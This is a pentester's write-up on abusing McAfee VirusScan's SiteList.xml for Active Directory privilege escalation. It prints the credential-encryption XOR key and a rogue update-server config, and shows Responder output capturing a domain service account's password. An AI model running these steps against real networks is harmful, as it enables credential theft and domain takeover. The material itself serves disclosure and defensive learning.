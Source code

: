
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

---

#### 16/02/2016 UPDATE

Thanks to [@funoverip](https://twitter.com/funoverip) for his [password decryption tool](https://github.com/funoverip/mcafee-sitelist-pwd-decryption).

Thus to increase my reverse skills I'm back.

```
Executable modules, item 6
 Base=73EB0000
 Size=00028000 (163840.)
 Entry=73EB9B6F cryptshi.<ModuleEntryPoint>
 Name=cryptshi
 File version=2.7.0.815
 Path=C:\Program Files (x86)\McAfee\Common Framework\cryptshim.dll
```

```
; Extract the XOR key
; \x12\x15\x0f\x10\x11\x1c\x1a\x06\x0a\x1f\x1b\x18\x17\x16\x05\x19\x00\x00\x00\x00
0x1001468e C645D812                        mov        byte [ss:ebp+var_28], 0x12
0x10014692 C645D915                        mov        byte [ss:ebp+var_27], 0x15
0x10014696 C645DA0F                        mov        byte [ss:ebp+var_26], 0xf
0x1001469a C645DB10                        mov        byte [ss:ebp+var_25], 0x10
0x1001469e C645DC11                        mov        byte [ss:ebp+var_24], 0x11
0x100146a2 C645DD1C                        mov        byte [ss:ebp+var_23], 0x1c
0x100146a6 C645DE1A                        mov        byte [ss:ebp+var_22], 0x1a
0x100146aa C645DF06                        mov        byte [ss:ebp+var_21], 0x6
0x100146ae C645E00A                        mov        byte [ss:ebp+var_20], 0xa
0x100146b2 C645E11F                        mov        byte [ss:ebp+var_1F], 0x1f
0x100146b6 C645E21B                        mov        byte [ss:ebp+var_1E], 0x1b
0x100146ba C645E318                        mov        byte [ss:ebp+var_1D], 0x18
0x100146be C645E417                        mov        byte [ss:ebp+var_1C], 0x17
0x100146c2 C645E516                        mov        byte [ss:ebp+var_1B], 0x16
0x100146c6 C645E605                        mov        byte [ss:ebp+var_1A], 0x5
0x100146ca C645E719                        mov        byte [ss:ebp+var_19], 0x19
0x100146ce C645D300                        mov        byte [ss:ebp+var_2D], 0x0
0x100146d2 C745C800000000                  mov        dword [ss:ebp+var_38], 0x0
0x100146d9 C745BC00000000                  mov        dword [ss:ebp+var_44], 0x0
0x100146e0 C745B400000000                  mov        dword [ss:ebp+var_4C], 0x0
0x100146e7 8B4D08                          mov        ecx, dword [ss:ebp+arg_0]
0x100146ea E811CCFEFF                      call       exp_?size@ABuffer@crypto@MA@mcafee_com@@QBEKXZ
```

---

#### 02/02/2016 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product ! Find best practices [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

#### Story

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on any *Domain Controler* and access all workstations within the domain.

<p align="center">
<img src="img/McAfee.jpg"/>
</p>

Mission accomplished !

[@tfairane](https://twitter.com/tfairane) greetz [@Fr33ster](https://twitter.com/Fr33ster)
